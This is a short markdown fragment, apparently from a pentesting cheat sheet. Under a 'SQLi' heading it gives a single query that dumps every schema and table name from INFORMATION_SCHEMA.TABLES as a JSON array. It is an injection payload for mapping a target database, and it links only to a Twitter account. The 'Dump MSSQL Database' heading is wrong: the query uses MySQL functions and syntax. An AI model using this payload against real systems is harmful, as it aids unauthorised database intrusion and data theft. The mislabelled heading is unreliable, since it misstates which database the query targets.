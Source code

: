 # SQLi

### Dump MSSQL Database

```text
SELECT json_arrayagg(concat_ws(0x3a,table_schema,table_name)) from INFORMATION_SCHEMA.TABLES;
```

### Resources

[https://twitter.com/ptswarm](https://twitter.com/ptswarm)

